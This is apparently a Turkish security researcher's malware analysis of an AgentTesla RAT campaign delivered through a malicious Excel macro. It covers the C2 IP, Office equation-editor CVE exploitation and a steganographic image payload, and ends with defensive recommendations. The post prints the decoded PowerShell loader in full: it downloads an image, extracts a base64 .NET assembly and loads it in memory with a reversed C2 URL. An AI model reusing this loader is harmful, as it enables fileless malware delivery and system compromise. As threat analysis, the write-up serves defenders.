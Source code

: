 # AgentTesla Excel Zararlı Yazılımı IoC Çalışması
<p>
    <center>Ali Can Gönüllü | Siber Güvenlik Uzmanı - alicangonullu[at]yahoo.com</center><br>
    Merhabalar,<br>
    Arkadaşlar bu yazımda sizlerle beraber AgentTesla adlı RAT yazılımını inceleyeceğiz.
</p>

# Disclaimer | Yasal Uyarı
<p>
  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
<br><br>
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.
</p>

## Yayılış Biçimi
<p>
    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
    <br><br>
    <img src="harmful_mail_example.png" />
    <br><br>
</p>

## Çalışma Mantığı
<p>
    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
    <br>
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
    <br><br>
    <img src="c2_server.png" />
    <br><br>
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
    <br>
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
    <br><br>
    <img src="vbs_file.png" />
    <br><br>
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
    <br><br>
    <img src="txt_file.png" />
    <br><br>
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
    <br><br>
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
    <br><br>
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
    <br><br>
    <img src="harmful_img.png" />
    <br><br>
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
    <br><br>
    <img src="harmful_img_b64.png" />
    <br><br>
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
    <br><br>
    <img src="b64_decrypt.png" />
    <br><br>
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
    <br><br>
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
    <br><br>
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
    <br>
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
    <br>
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>
</p>

## Çözüm Önerisi
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>

# Yazar | Author 
<p>
  Ali Can GÖNÜLLÜ<br>
  Siber Güvenlik Uzmanı<br>
  alicangonullu[at]yahoo.com
</p>
